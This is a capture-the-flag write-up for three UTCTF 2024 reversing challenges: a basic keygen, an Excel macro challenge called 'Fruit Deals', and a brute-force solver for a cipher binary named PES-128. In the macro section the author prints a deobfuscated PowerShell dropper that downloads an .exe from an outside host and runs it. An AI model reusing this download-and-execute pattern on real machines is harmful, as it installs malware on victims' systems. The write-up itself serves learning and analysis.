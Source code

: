 # UTCTF 2024
## Beginner: Basic Reversing Problem
### So many function calls... but are they that different?
### By Khael (@malfuncti0nal on discord)

In keygen function, the program consecutively added characters to the key.

![image](https://github.com/san601/CTF_Archive/assets/144963803/cef44d9d-982f-4bb4-addc-d3fc1fb89884)

Concatenating those characters and we got the flag.

```python
a = [
    0x75, 0x74, 0x66, 0x6c, 0x61, 0x67, 0x7b, 0x69, 0x5f, 0x63, 0x34, 0x6e,
    0x5f, 0x72, 0x33, 0x76, 0x21, 0x7d,
]
for i in a:
    print(chr(i), end='')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/84cb1da7-fe14-4940-b1b8-430b982b28b0)

## Fruit Deals

We got 2 macros in the file, let's just focus on the first one.

![image](https://github.com/san601/CTF_Archive/assets/144963803/dbbb6c1f-13ce-4b0a-9be0-603733d6e8c5)

Sheet1 and sheet2 were full of random Base64 stuffs

![image](https://github.com/san601/CTF_Archive/assets/144963803/fcd327de-3178-40ac-9e8f-fe58d4ff2c6b)

So basically, this macro check if a cell contained some string, if true, it put some part of a payload into a variable. This payload might be used to download some files.

![image](https://github.com/san601/CTF_Archive/assets/144963803/e5882d47-aff1-4325-8f9f-85c6cccc4b47)

Set a breakpoint just right before the macro execute the payload.

![image](https://github.com/san601/CTF_Archive/assets/144963803/bd1e358a-96e3-4d55-8b36-b830f26b5e24)

We got the payload
```
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```

It is clearly stated that the macro was going to download a file from 
```
http://fruit.gang/malware/banANA-Hakrz09182afd4.exe
```

So the flag is utflag{banANA-Hakrz09182afd4.exe}

## PES-128
After a while, I noticed that:
- Each character in the output string was not calculated based on a whole input string.
- The program treated our input as a string of hex bytes:
  
This was my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/9a8d78c6-d231-4bbe-95ed-a656085d0936)

This was how the program store my input:

![image](https://github.com/san601/CTF_Archive/assets/144963803/7a9183b7-1145-40be-9bbd-ca1feab07174)

This was my input after some calculation:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46404e51-1210-44b1-a73a-ff239ef2c45a)

This was the output:

![image](https://github.com/san601/CTF_Archive/assets/144963803/46fb9de2-3ce1-40a7-9041-211ebde7b2f3)

With those idea in mind, we can now brute-forcing each character at a time, compare it with the encrypted flag.

Here is my script to cAptURe tHe fLaG.
```python
from pwn import *

enc_flag = '75ac713a945e9f78f657b735b7e1913cdece53b8853f3a7daade83b319c49139f8f655b0b77b'

flag = ''

flag_len = len(enc_flag)//2

for i in range(flag_len):
    for j in range(33, 126):
        binary_path = './PES'
        p = process(binary_path)
        p.sendline(flag + str(hex(j)[2:]))

        output = p.recvall().decode()
        output = output.split()
        current_length = len(output[1])
        if output[1] == enc_flag[:current_length]:
            print(chr(j), end='')
            flag += str(hex(j)[2:])
        p.close()

print(bytes.fromhex(flag))
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/d3b4acb1-c6bc-4871-8fd9-c4e1fcc69397)

